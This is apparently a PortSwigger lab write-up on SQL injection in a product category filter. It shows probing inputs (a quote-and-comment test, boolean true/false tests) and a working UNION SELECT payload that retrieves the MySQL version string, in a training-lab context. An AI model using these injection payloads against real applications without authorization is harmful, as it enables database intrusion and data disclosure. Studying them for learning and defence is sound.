 # SQL injection attack, querying the database type and version on MySQL and Microsoft

This lab contains a SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database retrieve the string: '8.0.32-0ubuntu0.20.04.2')

---------------------------------------------
Reference: 
- https://portswigger.net/web-security/sql-injection/examining-the-database
- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


Filtering using GET parameter “category”: "/filter?category=Accesories"

<img width="1920" height="1022" alt="1" src="https://github.com/user-attachments/assets/d13e7a6b-456a-4a64-9920-7685411630c7" />


/filter?category=Accesories -> Return 4 items

/filter?category=Accessories';# -> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1  -> Return 4 items

/filter?category=Accessories'+and+'1'='0  -> Return 0 items

/filter?category=Accessories'+union+select+0,@@version#

```
GET /filter?category=Accessories'+union+select+0,@@version#
``` 

<img width="1920" height="1022" alt="2" src="https://github.com/user-attachments/assets/6401bd8c-21e1-4569-807b-ee154fee46e9" />
